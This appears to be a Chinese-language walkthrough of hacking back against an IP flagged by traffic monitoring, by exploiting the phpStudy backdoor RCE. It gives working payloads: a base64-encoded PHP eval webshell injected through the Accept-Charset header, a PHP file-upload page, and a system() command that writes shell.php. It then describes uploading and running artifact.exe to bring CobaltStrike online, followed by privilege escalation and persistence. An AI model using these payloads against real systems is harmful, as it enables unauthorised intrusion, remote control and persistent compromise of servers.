

> **流量监测设备发现入侵事件**

流量监测设备发现某IP存在高危攻击事件，开始对此IP进行反制溯源


> **Xray进行漏洞探测**

使用xray对恶意IP进行漏洞探测，发现存在`phpstudy-backdoor-rce`漏洞



> **方法一：AntSword连接Webshell上线CobaltStrike**

1. 配置蚁剑连接，编解码器使用`base64`


2. 利用漏洞进行无文件webshell连接，webshell直接写入请求头参数`Accept-Charset`（参数值要使用`base64`编码）

   - `base64`编码前代码为

     - ```php
       eval($_REQUEST['cmd']);
       ```

   - `base64`编码后代码为

     - ```
       ZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTs=
       ```


3. 上传后门文件artifact.exe


4. 蚁剑静态终端执行后门文件上线CobaltStrike


> **方法二：制作表单页面上传**

1. 在`Accept-Charset`参数出创建一个文件上传页面，页面代码如下

   ```php+HTML
   <html><head><meta charset="utf-8"></head><body>
       <?php if(!isset($_POST['submit'])){?>
       <form action="" method="POST" enctype="multipart/form-data"><input type="file" name="upfile"/><input type="submit" name="submit" value="文件上传"></form>
       <?php }else{
           $tmp_name = $_FILES['upfile']['tmp_name'];
           $target_name = './' .$_FILES['upfile']['name'];
           if(move_uploaded_file($tmp_name, $target_name)){
               echo'文件上传成功';
           }else{
               echo'文件上传失败';
           }
       }?>
   </body></html>
   ```

2. 然后访问文件上传页面，上传后门actifact.exe

3. 在`Accept-Charset`参数执行后门文件上线CobaltStrike

   ```php
   system('C:\phpStudy\WWW\artifact.exe');
   ```

> **方法三：直接写webshell到目标服务器**

1. 写入webshell到目标服务器

   ```php
   system('echo ^<?php eval($_REQUEST[\'cmd\']);?^> > C:\phpStudy\WWW\shell.php');
   ```

2. 然后按照方法一，用蚁剑连接webshell页面，上传后门并执行，上线CobaltStrike

> **权限维持、提权**

1. 由于目标系统phpStudy服务以管理员账号运行，通过此漏洞上线直接获取目标服务器管理员权限


2. Powershell、进程注入获取系统权限并进行权限维持


